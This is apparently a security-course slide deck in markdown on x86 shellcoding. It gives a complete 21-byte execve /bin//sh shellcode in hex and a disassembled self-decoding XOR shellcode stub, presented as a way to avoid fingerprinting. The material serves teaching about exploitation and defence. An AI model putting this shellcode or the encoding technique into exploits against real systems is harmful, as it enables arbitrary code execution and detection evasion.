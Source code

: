 - Very simple (naive) shellcode: `execve /bin//sh`

- Smth like: `31 c9 f7 e1 b0 0b 51 68 2f 2f 73 68 68 2f 62 69 6e 89 e3 cd 80`
(*naive, static, 21B shellcode*)

### Code as data

- Data injection → Code injection
- Difference between "normal data" and "code":
    - `W^X`
    - *memory segments*
    - But code *can also be stored as "normal data"*,
      e.g. exploiting a buffer overflow

???

## Initial notes

- What I will say *depends on the architecture*, in this case: `x86`
    - `x86_64` (commonly used in modern PCs) is similar but with small
      differences, e.g. first argument is not pushed into the stack
    - `arm` (commonly used in smartphones and embedded devices) is a lot
      different
- If you have doubts, take a look at the Intel Developer Manual

---

class: center, middle

## Shellcoding [2/7 the problem]

Naive (static) shellcode is *easy to fingerprint*

.twitch-emote.large[NotLikeThis]

Is there some sort of *dynamic* shellcode?

---

## Shellcoding [3/7 analysis]

```objdump-c
0:   29 c9                  sub    %ecx,%ecx
2:   74 14                  je     0x18
4:   5e                     pop    %esi
5:   b1 14                  mov    $0x14,%cl
7:   46                     inc    %esi
8:   8b 06                  mov    (%esi),%eax
a:   83 e8 09               sub    $0x9,%eax
d:   34 9f                  xor    $0x9f,%al
f:   32 46 ff               xor    -0x1(%esi),%al
12:  88 06                  mov    %al,(%esi)
14:  e2 f1                  loop   0x7
16:  eb 05                  jmp    0x1d
18:  e8 e7 ff ff ff         call   0x4
1d:  31 70 aa               xor    %esi,-0x56(%eax)
20:  92                     xchg   %eax,%edx
21:  d7                     xlat   %ds:(%ebx)
22:  2d ce af e1 a8         sub    $0xa8e1afce,%eax
27:  cc                     int3
28:  8d a8 e1 db 9d a1      lea    -0x5e62241f(%eax),%ebp
2e:  81                     .byte  0x81
2f:  fe                     (bad)
30:  ba                     .byte  0xba
31:  db                     .byte  0xdb
```
